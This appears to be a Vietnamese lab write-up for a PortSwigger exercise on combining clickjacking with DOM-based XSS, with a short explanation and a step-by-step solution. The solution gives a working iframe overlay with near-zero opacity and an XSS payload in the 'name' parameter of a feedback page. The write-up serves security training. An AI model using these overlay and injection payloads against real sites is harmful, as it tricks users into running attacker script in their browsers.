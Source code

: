 # Combining clickjacking with a DOM XSS attack

**Kết hợp clickjacking với tấn công DOM XSS** là một chiến thuật nguy hiểm khi sử dụng clickjacking như một phương tiện để triển khai một cuộc tấn công DOM XSS (Cross-Site Scripting). Dưới đây là cách hoạt động của kỹ thuật này:

**Cách kết hợp clickjacking và DOM XSS**

1. **Clickjacking độc lập**:

- Trong các tấn công clickjacking thông thường, kẻ tấn công lợi dụng iframe để làm người dùng vô tình thực hiện các hành động như nhấn "like" trên Facebook hoặc kích hoạt một chức năng cụ thể trên trang mục tiêu.

2. **Tấn công DOM XSS**:

- DOM XSS là loại tấn công lợi dụng lỗ hổng trong mã JavaScript phía client của trang web.

- Kẻ tấn công chèn payload XSS vào URL hoặc các tham số đầu vào, sau đó payload này được thực thi trên trình duyệt của nạn nhân.

3. **Kết hợp 2 kỹ thuật**:

- Kẻ tấn công trước tiên xác định lỗ hổng DOM XSS trên trang mục tiêu.

- Sau đó, chúng kết hợp URL chứa payload XSS với clickjacking bằng cách nhúng URL này vào iframe.

- Người dùng bị lừa nhấp vào nút hoặc liên kết trong giao diện giả mạo (decoy), dẫn đến việc kích hoạt tấn công DOM XSS.

**Cách hoạt động cụ thể**

- **Bước 1**: Kẻ tấn công xác định URL mục tiêu có chứa lỗ hổng DOM XSS, ví dụ:

    *https://target-website.com/page?input=<script>alert('XSS')</script>*

- **Bước 2**: Chèn URL này vào iframe trong trang clickjacking:

        <iframe id="target" src="https://target-website.com/page?input=<script>alert('XSS')</script>" style="opacity: 0; position: absolute;"></iframe>
    
- **Bước 3**: Tạo giao diện giả mạo để dụ người dùng click chuột, căn chỉnh nút hoặc liên kết của iframe sao cho hành động click chuột của người dùng kích hoạt payload DOM XSS.

**Ứng dụng thực tế**

- **Tăng độ nguy hiểm của tấn công DOM XSS:**

    - DOM XSS vốn chỉ hoạt động khi nạn nhân tương tác với URL chứa payload.

    - Bằng cách sử dụng clickjacking, kẻ tấn công có thể dễ dàng lừa nạn nhân thực thi payload mà không cần sự nhận thức của họ.

- **Làm tăng khả năng khai thác các hành động phức tạp:**

    - Clickjacking giúp kết hợp DOM XSS với các thao tác khác, như đăng nhập, gửi dữ liệu, hoặc điều khiển giao diện web.

**Tóm lại**:

Sự kết hợp giữa clickjacking và DOM XSS biến một cuộc tấn công XSS vốn đã nguy hiểm thành một phương thức tấn công mạnh mẽ hơn, lừa người dùng thực thi mã độc mà không hay biết. Tấn công này khai thác iframe để làm phương tiện che giấu, kết hợp URL payload XSS để triển khai tấn công vào trình duyệt của nạn nhân.

# Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image19.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image20.png?raw=true)

### Solution

Xem thử chức năng Submit feedback: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image21.png?raw=true)

--> CÓ thể lợi dung page /feedback để chèn payload kết hợp clickjacking và DOM XSS.

SỬ dụng payload có dạng sau: 

    <style>
        iframe {
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        }
    </style>
    <div>Test me</div>
    <iframe
    src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

Trong payload này, thẻ iframe, có thuộc tính src chứa URL mục tiêu bao gồm lỗ hổng DOM XSS. Cụ thể, payload DOM XSS được nhúng vào name param. 
        
    name=<img src=1 onerror=print()>

Khi user click, script này được kích hoạt để thực thi mã JS (trong TH này là hàm print()).

Các param khác như email, subject, message không quan trọng, chỉ dùng để lừa user tin rằng họ đang tương tác với 1 trang hợp lệ. 

Chỉnh sửa lại payload thành: 

    <style>
        iframe {
            position:relative;
            width:700px;
            height: 500px;
            opacity: 0.1;
            z-index: 2;
        }
        div {
            position:absolute;
            top:420px;
            left:80px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe
    src="https://0a9600c8047c47f4e388bb8200a200db.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

Go to exploit server và copy payload vào phần body: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image22.png?raw=true)

Store và View exploit: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image23.png?raw=true)

Thay đổi lại giá trị opacity thành 0.0001, email và Click Deliver exploit to victim.

Solved the lab!

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image24.png?raw=true)
